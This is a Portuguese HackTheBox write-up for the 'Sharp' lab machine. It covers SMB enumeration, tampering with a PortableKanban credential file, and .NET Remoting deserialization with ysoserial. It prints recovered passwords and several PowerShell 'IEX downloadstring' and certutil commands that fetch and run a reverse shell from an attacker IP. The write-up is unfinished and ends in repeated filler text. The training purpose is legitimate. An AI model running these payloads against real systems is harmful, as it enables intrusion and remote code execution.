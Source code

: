 <html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>


Back to all write-ups: [here](https://repo4chu.github.io/hackthebox/)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Sharp - HackTheBox - WriteUp
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![image](https://i.imgur.com/b8fWlNj.png)

**Tools** utilizadas:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap
smbclient
rpcclient
ExploitRemotingService
netcat
python
ysoserial
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
PORT     STATE SERVICE            VERSION
135/tcp  open  msrpc              Microsoft Windows RPC
139/tcp  open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
8888/tcp open  storagecraft-image StorageCraft Image Manager
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host


Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-12-08T12:21:23
|_  start_date: N/A

TRACEROUTE (using port 8888/tcp)
HOP RTT       ADDRESS
1   224.18 ms 10.10.14.1
2   224.76 ms 10.10.10.219
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient -L \\10.10.10.219 -N
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![Image](https://i.imgur.com/Fvm7tk6.png)

Vamos ao diretório kanban
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient -L \\10.10.10.219\\kanban -N
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![Image](https://i.imgur.com/yIbnT0B.png)

Podemos ver um arquivo chamado PortableKanban.pk3.bak que apararente ser um arquivo de backup, então vamos lê-lo
![Image](https://i.imgur.com/wWij6x7.png)

Ao abri-lo, podemos ver que, dentro do arquivo existem senhas criptografadas:
![Image](https://i.imgur.com/m4DVEag.png)

Começamos acessando o serviço SMB para copiar o programa para nossa maquina:

![Image](https://i.imgur.com/Wkz1IMK.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient \\\\10.10.10.219\\kanban -N
get pkb.zip
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Essa máquina, pela primeira vez tive que criar uma máquina Windows para usar como atacante...
Extraímos os arquivos do nosso arquivo pkb.zip

![Image](https://i.imgur.com/u7nyOBw.png)


Ao executarmos o arquivo PortableKanban.exe podemos perceber que ele faz a criação do arquivo PortableKanban.pk3.bak onde ele guarda as credenciais...
Então vamos substituir pelo arquivo PortableKanban.pk3.bak que encontramos em nosso alvo.

Ao substituir o arquivo PortableKanban.pk3, precisamos de credenciais para conseguir acessar o programa.

![Image](https://i.imgur.com/q1UFNLT.png)

![Image](https://i.imgur.com/GSP4UQv.png)

Pesquisando um pouco mais sobre o Kanban, pude perceber que dentro do programa é possivel retornar as senhas em plain-text com uma conta de Administrador...
Em nosso arquivo temos essas informações:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{"Id":"e8e29158d70d44b1a1ba4949d52790a0","Name":"Administrator","Initials":"","Email":"","EncryptedPassword":"k+iUoOvQYG98PuhhRC7/rg==","Role":"Admin","Inactive":false,"TimeStamp":637409769245503731}
{"Id":"0628ae1de5234b81ae65c246dd2b4a21","Name":"lars","Initials":"","Email":"","EncryptedPassword":"Ua3LyPFM175GN8D3+tqwLA==","Role":"User","Inactive":false,"TimeStamp":637409769265925613}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Portanto, temos um usuário administrador e um user comum.
O que podemos fazer é tentar editar o arquivo que guarda as senhas para acessar
Primeiro, vamos remover a senha do usuário lars para conseguir a senha do usuário Administrator, para isso deixaremos o campo 'EncryptedPassword' vazio, além disso, mudaremos a parte 'Role' de user para Admin.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{"Id":"0628ae1de5234b81ae65c246dd2b4a21","Name":"lars","Initials":"","Email":"","EncryptedPassword":"","Role":"Admin","Inactive":false,"TimeStamp":637409769265925613}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Após isso, tentamos acessar o programa com usuário 'lars' sem senha.

![Image](https://i.imgur.com/Af60F1P.png)


Ao desmarcar a opção Hide Passwords, temos nossas primeiras credenciais:
![Image](https://i.imgur.com/fk984oq.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Administrator:G2@$btRSHJYTarg
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Com isso, podemos voltar para nosso arquivo PortableKanban.pk3 inicial.
Agora ao abrirmos o Kanban, usamos as credenciais de Administrator.

Agora temos credenciais do usuário lars e do usuário Administrator:
![Image](https://i.imgur.com/tlGO5us.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
lars:G123HHrth234gRG
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

No outro diretório do SMB, chamado dev:

![Image](https://i.imgur.com/Er6JZCu.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient \\\\10.10.10.219\\dev -U lars
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Fazemos o download de todos esses arquivos para a nossa máquina para podermos analisarmos.

Usamos o dnSpy para analisar os arquivos .exe
Dentro do arquivo Client.exe, temos uma informação interessante:

![Image](https://i.imgur.com/gUNQ87R.png)

Temos uma credencial e um endereço:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
debug:SharpApplicationDebugUserPassword123!
tcp://localhost:8888/SecretSharpDebugApplicationEndpoint
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Pesquisando sobre como interagir com esse serviço, encontramos um exploit que interage com esse serviço através do Remoting.Channels.Tcp, o [ExploitRemotingService](https://github.com/tyranid/ExploitRemotingService).

Podemos compilar ele em nossa máquina, ou já fazer o download dele [compilado](https://github.com/parteeksingh005/ExploitRemotingService_Compiled).

Agora precisamos preparar nosso payload que enviaremos atraves do ExploitRemotingService.
Para isso vamos precisar do python e também do [yososerial](https://github.com/pwntester/ysoserial.net).

Devemos compilar o yososerial ou baixa-lo já [compilado](https://github.com/pwntester/ysoserial.net/releases/tag/v1.34).

Após isso, devemos preparar nossa shell.
Usaremos está [shell.ps1](https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.\ysoserial.exe -f BinaryFormatter -o base64 -g TypeConfuseDelegate -c "powershell -c IEX(new-object net.webclient).downloadstring('10.10.14.136/chu.ps1')"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.\ExploitRemotingService.exe --user=debug --pass=SharpApplicationDebugUserPassword123! tcp://10.10.10.219:8888/SecretSharpDebugApplicationEndpoint raw 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.\ysoserial.exe -f BinaryFormatter -o base64 -g TypeConfuseDelegate -c "powershell -c IEX(new-object net.webclient).downloadstring('http://10.10.14.128/winpeas.exe')"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~





Ao acessar a pasta C:\users\lars\Documents\ nos deparamos com uma pasta chamada wcf, vamos compacta-la e move-la para o diretório compartilhado do SMB.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Compress-Archive -LiteralPath C:\users\lars\Documents\wcf -DestinationPath C:\users\lars\Documents\wcf.zip
move-item -path C:\users\lars\Documents\wcf.zip -destination c:\dev
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Após compactar e mover para pasta compartilhada no SMB, acessamos com credenciais já obtidas e baixamos para nossa máquina:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient \\\\10.10.10.219\\dev -U lars
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Ao baixar o arquivo para nossa máquina, podemos abri-lo no VisualStudio:
![Image](https://i.imgur.com/yEePAM8.png)

Vamos adicionar nossa linha no código
![Image](https://i.imgur.com/MBxWpho.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Console.WriteLine(client.InvokePowerShell(" iex (new-object net.webclient).downloadstring('http://10.10.14.136/chu.ps1')"));
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


certutil -urlcache -split -f "http://10.10.14.136/WcfRemotingLibrary.dll" WcfRemotingLibrary.dll
certutil -urlcache -split -f "http://10.10.14.136/WcfClient.exe" WcfClient.exe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo 





if i helped you, add + respect at my profile :D
<html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>
 
my references
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://parsiya.net/blog/2015-11-14-intro-to-.net-remoting-for-hackers/
https://docs.microsoft.com/pt-br/dotnet/api/system.runtime.remoting.channels.tcp?view=netframework-4.8
https://docs.microsoft.com/pt-br/dotnet/api/system.runtime.remoting.channels.tcp.tcpchannel?view=netframework-4.8
https://github.com/tyranid/ExploitRemotingService
https://eternallybored.org/misc/netcat/
https://github.com/pwntester/ysoserial.net
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
